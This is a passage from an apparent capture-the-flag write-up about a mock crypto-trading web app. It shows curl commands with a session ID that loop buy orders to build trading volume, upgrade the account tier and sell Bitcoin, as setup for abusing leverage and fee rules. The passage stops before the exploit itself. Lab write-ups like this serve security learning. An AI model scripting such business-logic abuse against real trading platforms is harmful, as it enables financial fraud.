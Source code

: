 **Commands executed:**
```bash
# Build trading volume through repeated market orders
for i in {1..10}; do
  curl -X POST http://instance.asean-openctf2025.site:31055/api/trading/buy \
    -H "Content-Type: application/json" \
    -H "X-Session-ID: trader_bv0pjjvf0_1755317525894" \
    -d '{"amount": 5000, "orderType": "market", "leverage": 1}'
  sleep 1
done
```

**Results:**
- Accumulated $50,000 in trading volume
- Converted all $10,000 USD to ~1.11 BTC
- Portfolio value: ~$49,938 (slight loss due to fees and price fluctuations)

### Phase 2: Account Tier Upgrade

With sufficient volume accumulated, the next step was upgrading to institutional tier to unlock enhanced trading capabilities.

**Command:**
```bash
curl -X POST http://instance.asean-openctf2025.site:31055/api/account/upgrade \
  -H "Content-Type: application/json" \
  -H "X-Session-ID: trader_bv0pjjvf0_1755317525894" \
  -d '{"tier": "institutional"}'
```

**Benefits Unlocked:**
- 2% discount on institutional block orders
- Waived fees on orders ≥ $50,000
- Enhanced leverage up to 10x on large orders
- Priority order execution
- Special leverage rules for orders ≥ $40,000

### Phase 3: Liquidity Management

Since all capital was tied up in Bitcoin, USD was needed for leveraged buy orders. The solution was to sell approximately half the Bitcoin holdings.

**Command:**
```bash
curl -X POST http://instance.asean-openctf2025.site:31055/api/trading/sell \
  -H "Content-Type: application/json" \
  -H "X-Session-ID: trader_bv0pjjvf0_1755317525894" \
  -d '{"amount": 0.55, "orderType": "market"}'
```

**Results:**
- Received ~$24,636 USD
- Retained ~0.56 BTC (~$25,140 value)
- Total portfolio: ~$49,776
